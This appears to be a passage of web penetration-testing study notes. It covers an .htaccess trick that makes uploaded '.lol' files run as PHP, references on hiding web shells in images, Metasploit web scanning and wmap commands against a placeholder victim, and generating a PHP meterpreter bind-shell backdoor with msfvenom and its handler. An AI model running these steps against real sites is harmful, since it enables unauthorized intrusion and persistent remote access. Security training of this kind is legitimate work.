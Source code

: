 If you upload this as `.htacess` then any file
with the extension `.lol` will execute as PHP.
```
AddType application/x-httpd-php .lol
```

Embedding code in images: http://www.thexifer.net

Further reading
- https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks
- http://soroush.secproject.com/downloadable/iis-semicolon-report.pdf

## Ch7 - Metasploit and web

Metasploit modules
- Auxiliary: scanning, fuzzing
- Exploit: return a shell
- Encoder: cloak, obfuscate
- Payload: payload after exploit
- Others: Nops, post-exploitation

Metasploit for web
```
msf > use auxiliary/scanner/http/
msf > use auxiliary/scanner/http/brute_dirs
msf > use auxiliary/scanner/http/dir_scanner
msf > use auxiliary/scanner/http/files_dir
msf > show options
msf > set THREADS 10
msf > set RHOSTS VICTIM_IP
...
```

Automated scanner
```
msf > load wmap
msf > wmap_sites –a protocol://host:port
msf > wmap_sites –l
msf > wmap_targets –t protocol://host:port
msf > wmap_targets –l
msf > wmap_run –t
msf > wmap_run –e
```

Web backdoor
```
$ msfvenom -l payloads
$ msfvenom -p php/meterpreter/bind_tcp --list-options
$ msfvenom -p php/meterpreter/bind_tcp LPORT=60000 > /root/msf/php-msf.php
$ msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/bind_tcp
msf exploit(handler) > set RHOST VICTIM_IP
msf exploit(handler) > set LPORT 60000
```
